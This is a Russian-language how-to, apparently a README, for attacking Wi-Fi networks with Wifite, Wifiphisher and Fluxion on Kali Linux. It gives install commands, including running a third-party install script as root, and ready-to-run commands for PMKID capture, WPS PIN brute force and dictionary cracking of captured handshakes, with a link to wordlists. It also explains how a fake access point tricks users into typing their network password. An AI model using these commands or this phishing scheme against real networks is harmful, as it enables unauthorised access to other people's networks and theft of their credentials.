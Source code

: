 # Wifite

Wififte предустановлен в Kali Linux, однако, есть не установленные зависмости.

Доустановка зависимостей для Wifite:

	sudo apt-get update && sudo apt-get upgrade

	sudo apt-get install hcxtools

	sudo apt-get install hcxdumptool 

	git clone https://github.com/hacker3983/pyrit-installer && cd pyrit-installer && sudo bash install.sh
	
Чтобы запустить атаку с заданым временем для PMKID: 

	sudo wifite --pmkid-timeout 30 --random-mac --kill 

Если хотите запустить атаку со своим словарем, то добавьте --dict ~/dict/WPS_Pins.txt - путь до словаря, я использую WPS пин-коды

Чтобы запустить атаку на заданном сетевом интерфейсе добавьте параметр i, например:

	-i wlan0
	
Запустить атаку на WPS:

	sudo wifite --wps-only --bully --ignore-lock --random-mac
	
Запустить взлом перехваченного рукопожатия (Handshake):

	sudo wifite --crack --dict ~/dict/8digitBack.txt --all

*Путь до словаря паролей

**Cловари можно скачать [здесь](https://disk.yandex.ru/d/v4Lbt1p47K8bIw)**


Перезапустить сетевой интерфейс после использования Wifite:

	sudo airmon-ng stop wlan0mon 
	
*Название интерфейса может отличаться.
	

# Wifiphisher 

Для атаки, в которой играет немалую роль социальная инженерия, есть инструмент под названием Wifiphisher. Он деаутентифицирует подключенных пользователей целевой точи доступа и поднимает ее фальшивую копию без пароля. Пользователи, думая что что-то не так с роутером, подключаются с фальшивой точке (к настоящей они не могут подключиться из-за работы нашей программы) и, якобы для обновления прошивки, точка их просит ввести пароль. После ввода пароль приходит нам.
 

**Установка:** 

	sudo apt-get install wifiphisher

**Использование**

	sudo wifiphisher

	

# FLUXION 


Данный инструмент похож на предыдущий, но он более продвинутый. Есть поддержка русского языка. 

Сначала Fluxion захватывает рукопожатие, достает из него хэш пароля, а затем делает всё тоже самое что и wifiphisher, только если пользователь введет верный пароль, Fluxion свернет поддельную точку доступа и атака завершится успехом. Для него лучше иметь дополнительный wifi-адаптер.

**Установка:**

	git clone https://github.com/FluxionNetwork/fluxion && cd fluxion/ && sudo ./fluxion.sh

**Использование:**

	sudo ./fluxion.sh
